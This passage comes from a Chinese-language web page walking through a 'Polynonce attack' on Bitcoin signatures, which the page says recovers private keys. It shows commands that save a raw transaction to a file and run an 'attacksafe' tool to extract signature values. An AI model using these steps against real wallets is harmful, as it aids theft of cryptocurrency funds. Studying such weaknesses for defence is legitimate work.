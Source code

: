 

<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2023/04/image-158.png" alt="POLYNONCE ATTACK使用BITCOIN簽名作為128位任意高次方的多項式來獲取私鑰" class="wp-image-3030"/></figure>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<blockquote class="wp-block-quote">
<p><em>通過實用程序加載&nbsp;</em><code>HEX</code><em>數據&nbsp;</em><code>echo</code><em>&nbsp;並將其保存到文件：&nbsp;&nbsp;</em><strong>RawTX.txt</strong></p>
</blockquote>



<pre class="wp-block-code"><code>!echo '01000000016eb80d35b08164302e49f88d8f86bf2827a91a5650149be38f4f73751ff41437060000006a473044022043d4c025a0f3be366a0d768c721b9b9191e0c3db6f2c6bfe34e8fb24af7f379102205a4fe2cc6944e00309c35619ff1242301b84d4728b863f97326f56dbd7a782220121027ccccf5f56ed78c2a761721ff3da0f76b792fbe4eae2ac73e7b4651bc3ef19cdffffffff01c057010000000000232103bec42e5d718b0e5b3853243c9bcf00dd671a335b0eb99fd8ca32f8d5784a9476ac00000000' &gt; RawTX.txt
</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2023/04/image-124-1024x468.png" alt="POLYNONCE ATTACK使用BITCOIN簽名作為128位任意高次方的多項式來獲取私鑰" class="wp-image-2889"/></figure>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2 class="wp-block-heading"><code>-tool polynonce_attack</code>&nbsp;使用軟件&nbsp;啟動&nbsp;<code>“ATTACKSAFE SOFTWARE”</code></h2>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<pre class="wp-block-code"><code>!./attacksafe -tool polynonce_attack -open RawTX.txt -save SignatureRSZ.csv</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2023/04/image-125-1024x252.png" alt="POLYNONCE ATTACK使用BITCOIN簽名作為128位任意高次方的多項式來獲取私鑰" class="wp-image-2890"/></figure>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p>我們發起了這次攻擊&nbsp;<code>-tool polynonce_attack</code>&nbsp;並將結果保存到一個文件中&nbsp;<code>SignatureRSZ.csv</code></p>



<p>現在看到成功的結果，打開文件&nbsp;<code>SignatureRSZ.csv</code></p>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



